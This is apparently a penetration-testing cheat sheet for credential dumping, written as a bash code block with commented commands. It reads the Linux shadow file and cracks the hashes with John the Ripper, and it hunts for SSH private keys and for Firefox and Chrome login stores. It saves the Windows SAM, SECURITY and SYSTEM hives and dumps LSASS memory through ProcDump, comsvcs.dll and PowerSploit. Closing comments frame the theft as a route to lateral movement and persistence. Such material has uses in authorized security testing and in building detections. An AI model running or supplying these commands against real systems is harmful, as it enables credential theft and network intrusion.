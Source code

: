 ```bash
# Linux credential extraction
## Shadow file access (requires root)
cat /etc/shadow                             # Password hashes
cat /etc/passwd                             # User information

# Unshadowing for password cracking
unshadow /etc/passwd /etc/shadow > /tmp/unshadowed.txt
john /tmp/unshadowed.txt --wordlist=/usr/share/wordlists/rockyou.txt

# SSH key extraction
find /home -name "id_rsa" -o -name "id_dsa" -o -name "id_ecdsa" -o -name "id_ed25519" 2>/dev/null
find /home -name "*.pem" 2>/dev/null
find /home -name "authorized_keys" 2>/dev/null

# Browser credential extraction (Linux)
# Firefox profiles
find /home -name "*.sqlite" | grep -i firefox
# Chrome/Chromium profiles  
find /home -name "Login Data" | grep -i chrome

# Windows credential extraction techniques
## SAM database dumping (requires SYSTEM)
reg save HKLM\sam C:\temp\sam
reg save HKLM\security C:\temp\security
reg save HKLM\system C:\temp\system
# Use tools like samdump2 or impacket-secretsdump to extract hashes

## LSASS memory dumping
# Method 1: Task Manager (GUI)
# Right-click lsass.exe -> Create dump file

# Method 2: ProcDump
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Method 3: Comsvcs.dll (Living off the Land)
tasklist /fi "imagename eq lsass.exe"        # Get LSASS PID
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump [PID] C:\temp\lsass.dmp full

# Method 4: PowerShell
# Out-Minidump.ps1 from PowerSploit
Out-Minidump -Process (Get-Process lsass) -DumpFilePath C:\temp\

## Registry credential extraction
# Cached domain credentials
reg save HKLM\SECURITY C:\temp\security
# LSA secrets
reg save HKLM\SECURITY C:\temp\security
reg save HKLM\SAM C:\temp\sam
reg save HKLM\SYSTEM C:\temp\system

# Why credential dumping is essential:
# - Enables lateral movement with legitimate credentials
# - Provides access to higher-privileged accounts
# - Supports persistent access mechanisms
# - Critical for advancing through network
```
